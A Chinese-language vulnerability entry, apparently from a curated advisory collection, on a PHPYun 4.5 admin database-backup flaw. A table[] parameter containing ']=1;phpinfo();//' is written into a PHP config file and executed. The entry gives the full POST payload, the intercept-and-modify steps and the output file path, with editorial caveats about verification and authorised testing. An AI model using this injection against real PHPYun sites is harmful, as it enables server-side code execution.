




# PHPYun 数据库备份表名写配置PHP执行

## 条目说明

- 对象与具体问题：PHPYun；数据库备份表名写配置PHP执行
- 版本、配置及部署条件：4.5；后台备份权限及PHP可访问目录
- 认证与权限前提：后台登录+pytoken
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 提供固定pytoken和时间戳目录，需要说明会话/生成路径变量
- 文章声明Web根指uploads，实际访问路径不能照搬普遍部署
- 一张图引用3.1 XML文章资源，须人工核图；简介空，缺根因源码/修复
- 备份配置写入与执行副作用明确

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

一、漏洞简介
------------

二、漏洞影响
------------

Phpyun v4.5

三、复现过程
------------

#### payload：

    Url： http://www.0-sec.org/admin/index.php?m=database&c=backup  

    Post： 
    pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111

漏洞复现过程：
首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

抓包，修改table\[\] 参数-》发送

产生的文件就在uploads/data/plus/bdata/phpyun\_20200312153927/config.phpUrl：访问（这里搭建的时候环境，我默认指向了uploads）

